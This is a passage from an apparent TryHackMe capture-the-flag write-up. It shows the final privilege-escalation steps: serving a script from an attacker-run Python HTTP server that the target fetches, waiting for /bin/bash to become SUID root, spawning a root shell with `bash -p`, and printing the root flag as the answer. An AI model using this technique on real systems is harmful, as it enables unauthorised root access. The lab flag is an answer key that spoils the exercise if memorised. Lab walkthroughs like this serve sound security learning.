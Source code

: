 ```bash
$ sudo python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.169.242 - - [17/Apr/2021 12:13:01] "GET /downloads/src/buildscript.sh HTTP/1.1" 200 -
```
8. Wait for a minute or untill `/bin/bash` has the permission `-rwsr-sr-x`
```bash
james@overpass-prod:~$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1113504 Jun  6  2019 /bin/bash
```
9. On the server, use privilege escalation to read `root.txt`:
```bash
james@overpass-prod:~$ /bin/bash -p
bash-4.4# cat /root/root.txt 
thm{7f336f8c359dbac18d54fdd64ea753bb}
```

**Answer**: `thm{7f336f8c359dbac18d54fdd64ea753bb}`